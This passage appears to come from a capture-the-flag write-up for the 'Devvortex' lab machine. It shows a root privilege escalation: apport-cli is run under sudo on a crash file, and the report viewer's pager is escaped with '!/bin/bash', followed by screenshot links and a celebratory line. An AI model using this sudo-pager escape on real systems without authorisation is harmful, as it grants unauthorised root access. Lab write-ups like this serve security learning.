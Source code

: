 ```jsx
sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash
press V (view report)
!/bin/bash
```

![Screenshot from 2023-12-22 01-03-54.png](Devvortex%209cff6b411256458fbb54fc1167476765/Screenshot_from_2023-12-22_01-03-54.png)

SUPER!!! WE goT Shell as ROOT

![Screenshot from 2023-12-22 01-05-50.png](Devvortex%209cff6b411256458fbb54fc1167476765/Screenshot_from_2023-12-22_01-05-50.png)

![Untitled](Devvortex%209cff6b411256458fbb54fc1167476765/Untitled%2014.png)

